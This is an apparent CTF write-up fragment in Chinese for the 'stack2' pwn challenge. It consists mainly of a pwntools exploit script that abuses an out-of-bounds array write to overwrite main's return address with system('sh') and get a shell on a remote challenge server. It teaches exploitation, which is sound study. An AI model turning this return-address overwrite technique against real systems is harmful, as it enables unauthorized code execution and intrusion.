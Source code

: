 sh所在的地址位0x8048980 + 7 （空过前面的/bin/ba 读取sh），或者 ROPgadget --binary stack2 --string 'sh'

```python
from pwn import *
# p = process('./pwn_score03_stack2')
p = remote('220.249.52.133', 37131)
 
hackhere = [0x9b, 0x85, 0x04, 0x08]  #0x0804859B
write_offset = 0x84
system_addr = [0x50, 0x84, 0x04, 0x08] # 0x08048450
sh_addr = [0x87, 0x89, 0x04, 0x08]  # 0x08048987
 
def change_number(offset, value):
  p.sendlineafter('5. exit', '3')
  p.sendlineafter('which number to change:', str(offset))
  p.sendlineafter('new number:', str(value))
 
p.sendlineafter('How many numbers you have:', '1')
p.sendlineafter('Give me your numbers', '1')
for i in range(4):
  change_number(write_offset+i, system_addr[i])
 
write_offset += 8 # system4位 system返回值4位-跳过了这里 system参数 ,  +8直接到参数这里了
for i in range(4):
  change_number(write_offset+i, sh_addr[i])
 
 
p.sendlineafter('5. exit', '5') # 修改的是main的 retn，所以要先退出。
 
 
p.interactive()
```
https://bbs.secgeeker.net/thread-1430-1-1.html
https://blog.csdn.net/fastergohome/article/details/103669719